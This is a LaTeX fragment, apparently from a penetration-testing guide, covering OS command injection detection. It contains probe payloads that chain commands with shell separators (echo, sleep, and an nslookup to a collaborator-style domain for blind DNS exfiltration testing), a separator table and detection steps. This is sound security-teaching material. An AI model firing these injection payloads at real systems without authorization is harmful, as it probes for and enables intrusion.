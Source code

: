 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[language=bash]
# Simple echo test (in-band)
; echo test
| echo test
|| echo test
& echo test
&& echo test

# Time delay test (blind)
; sleep 5
| sleep 5
|| sleep 5
& sleep 5
&& sleep 5

# DNS exfiltration test (blind)
; nslookup test.collaborator.com
| nslookup test.collaborator.com
\end{lstlisting}

\subsection{Command Separators}

\begin{longtable}{|l|l|l|}
\hline
\textbf{Separator} & \textbf{Description} & \textbf{Example} \\
\hline
; & Execute sequentially & \verb|cmd1; cmd2| \\
\hline
\& & Execute in background & \verb|cmd1 \& cmd2| \\
\hline
\&\& & Execute if previous succeeds & \verb|cmd1 \&\& cmd2| \\
\hline
$|$ & Pipe output & \verb|cmd1 | cmd2| \\
\hline
$||$ & Execute if previous fails & \verb|cmd1 || cmd2| \\
\hline
\textbackslash n & Newline & \verb|cmd1\ncmd2| \\
\hline
\end{longtable}

\subsection{Detection Steps}

\begin{enumerate}
    \item Identify input parameters
    \item Submit command separators (;, \&, |, etc.)
    \item Observe response for changes
    \item Test with benign commands (echo, ping, sleep)
    \item Check for time delays (blind injection)
    \item Monitor out-of-band interactions
\end{enumerate}

\section{When to Search for Command Injection}
\end{document}

